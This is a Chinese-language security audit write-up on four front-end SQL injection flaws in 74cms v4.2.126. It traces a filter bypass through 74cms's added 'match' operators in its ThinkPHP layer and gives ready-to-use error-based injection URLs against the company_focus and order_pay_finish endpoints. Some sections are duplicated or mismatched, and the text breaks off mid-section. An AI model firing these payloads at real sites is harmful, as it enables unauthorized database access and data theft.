74cms v4.2.126-前台四处sql注入
==============================

0x00 前言
---------

厂商：74cms下载地址：http://www.74cms.com/download/index.html关于版本：新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。注：此漏洞不用升级至最新版本也可使用。

0x01 74cms升级到最新版
----------------------

1， 先去官网下载 骑士人才系统基础版(安装包)2， 将下载好的包进行安装3， 进入后台点击查看如果不是最新版的话，请点击升级！4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决5，
搜索文件74cms\\upload\\Application\\Admin\\Controller\\ApplyController.class.php6， 查找所有\$\_SERVER\[\'HTTP\_HOST\'\] 改为 http://baidu.com 即可

0x02 概要
---------

这个注入也是挺有趣的，如果不是我有比对源码的习惯的话，可能还找不到这个74cms独有的框架sql注入漏洞
: )这里我并不会脱离74cms重新讲一次相关的框架内容，所以读者最好，看看我之前的文章。ThinkPHP3.2.3框架实现安全数据库操作分析https://www.yuque.com/pmiaowu/bfgkkh/coglz1先看完上面的文章，然后在看此文章，会更简单的了解清楚。

0x03 漏洞讲解
-------------

非常抱歉，让读者看到前面 3节 不是很有营养的东西。在前面最开始的时候，我说过我有对比源码，使用手册的情况。所以这里我们继续在开始之前，我要使用在74cms这个代码里面写个例子，希望可以让你们看懂，因为文化水平不高=-=，写文章感觉和很多前辈差距挺大的。为了能够更直观，这里开启调试文件：74cms\\upload\\Application\\Common\\Conf\\config.php添加多一行

    'SHOW_PAGE_TRACE'        =>  true,

然后打开文件：74cms\\upload\\Application\\Home\\Controller\\IndexController.class.php添加代码：

    $uid = I('GET.uid');
    M('CompanyProfile')->field('companyname,logo')->where(array('uid'=>$uid))->find();



我感觉到这里可能有人要骂我了。应该有人会： 你个瓜皮，你家审计可以自己加代码的？是的是的，的却不能加。我这样也是想让更多的人能够简单的看懂这个漏洞那么我们通过这个也能知道一般这种情况，是没得注入的了，而且应为使用了系统函数
I 所以也是没有框架注入这一说。这里又要重新重复讲解I函数的作用了在我的眼中I函数就是一个为了解决框架底层设计问题的函数

神奇的I函数路径:ThinkPHP\\Common\\functions.php方法名：function I(\$name,\$default=\'\',\$filter=null,\$datas=null)



这个函数的主要功能为3个1， 确定数据类型2， 对数据进行循环取值3， 调用think\_filter 函数进行过滤think\_filter函数分析

    例如：
        没有使用think_filter 函数时
    goods_name[0]=in&goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp

    使用了think_filter函数时
      goods_name[0]=in &goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp
      注意：使用了think_filter函数时 in后面是有空格的也就是说返回值是
    goods_name[0]=in(空格)&goods_name[1]=(true) and (updatexml(1,concat(1,(select user())),1))--&goods_name[2]=exp
    而正是这个空格的问题，就可以修复掉可能发生的框架注入问题。

接着我们直接打开文件：74cms\\upload\\ThinkPHP\\Library\\Think\\Db\\Driver.class.php



    think_filter函数与上图两者对比一下，是否发现多点了东西？
    是的没错了。
    74cms 修改了tp底层添加了
    3个新方法：
    match
      match_mode
      match_with

    也就是说这3个方法我们是可以绕过 I 函数的过滤的

    接着查看：parseWhereItem( 方法

使用的是直接字符串拼接的方式入库，故判断此漏洞可利用.注意了上图我们可控制的点是 \$str 而 \$str 给双引号包含！！！！！！！最开始的时候，记得我说过么，系统默认I 会过滤 "双引号"
而导致此注入不可用，那么就需要找一处不经过I函数或是说不过滤双引号的地方来构造漏洞。这里我们重新修改一下例子：打开文件：
74cms\\upload\\Application\\Home\\Controller\\IndexController.class.php



    输入url: http://74cms.test/index.php?m=Home&c=index&a=index&uid[0]=match&uid[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a

这样的话，这个注入就是可用的了。理解了这个以后，我们也算是挖到了74cms独有的框架漏洞。接下来整理一下会发生注入的情况M()-\>where(\$test)-\>xx那么只要 where中任意参数可控，并不会过滤 双引号即可！然后就没什么技术含量了使用ide进行搜索测试即可确定漏洞，经过一顿搜索以后



前端发现一共有四处，也就是说这个框架漏洞，可以利用的地方只有四处。后端注入，除了挖src，不然我都认为他是没有什么用。所以后端能不能利用我也不知道。我没去看
: )

0x04 74cms独有框架漏洞第一处
----------------------------

文件：74cms\\upload\\Application\\Home\\Controller\\AjaxPersonalController.class.php方法：function company\_focus(\$company\_id)是否需登录：需要登录权限：普通用户即可为了方便，我是直接后台注册账户的，因为本人穷，付不起短信费。登录后台



注册完成以后登录前台即可如果不登录的话，会显示这个样子url:http://74cms.test/index.php?m=&c=AjaxPersonal&a=company\_focus



    http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a

看源码

打开文件：
74cms\\upload\\Application\\Common\\Model\\PersonalFocusCompanyModel.class.php方法：add\_focus(

0x05 74cms独有框架漏洞第二处
----------------------------

文件：74cms\\upload\\Application\\Home\\Controller\\CompanyServiceController.class.php方法：order\_pay\_finish(是否需登录：需要登录权限：企业用户即可看源码

image

为了方便，我是直接后台注册账户的，因为本人穷，付不起短信费。



注册完成以后登录前台即可

    url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a

    如果不登录的话，会显示这个样子
    url:http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus



    http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a



看源码



打开文件：
74cms\\upload\\Application\\Common\\Model\\PersonalFocusCompanyModel.class.php方法：add\_focus(

0x06 74cms独有框架漏洞第二处
----------------------------

文件：74cms\\upload\\Application\\Home\\Controller\\CompanyServiceController.class.php方法：order\_pay\_finish(是否需登录：需要登录权限：企业用户即可看源码

为了方便，我是直接后台注册账户的，因为本人穷，付不起短信费。



注册完成以后登录前台即可

    url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a



0x07 74cms独有框架漏洞第三处
----------------------------

文件：74cms\\upload\\Application\\Home\\Controller\\MembersController.class.php方法：register(是否需登录：不需要

    url: 
    http://74cms.test/index.php?m=&c=Members&a=register
    post: 
    reg_type=2&utype=2&ucenter=bind&unbind_mobile=1

    cookie:
